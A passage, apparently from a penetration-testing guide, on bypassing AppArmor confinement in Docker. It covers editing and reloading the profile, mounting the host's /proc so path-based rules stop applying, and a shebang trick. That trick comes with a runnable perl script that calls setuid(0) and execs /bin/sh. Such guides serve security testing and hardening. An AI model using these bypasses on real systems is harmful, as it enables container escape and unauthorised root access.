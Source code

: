 Then, you can run the following line to find the exact profile being used:

```
find /etc/apparmor.d/ -name "*lowpriv*" -maxdepth 1 2>/dev/null
```

In the weird case you can modify the apparmor docker profile and reload it. You could remove the restrictions and "bypass" them.

### AppArmor Docker Bypass2

AppArmor is path based, this means that even if it might be protecting files inside a directory like `/proc` if you can configure how the container is going to be run, you could mount the proc directory of the host inside `/host/proc` and it won't be protected by AppArmor anymore.

### AppArmor Shebang Bypass

In  you can see an example of how even if you are preventing perl to be run with certain resources, if you just create a a shell script specifying in the first line `#!/usr/bin/perl` and you execute the file directly, you will be able to execute whatever you want. E.g.:

```
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```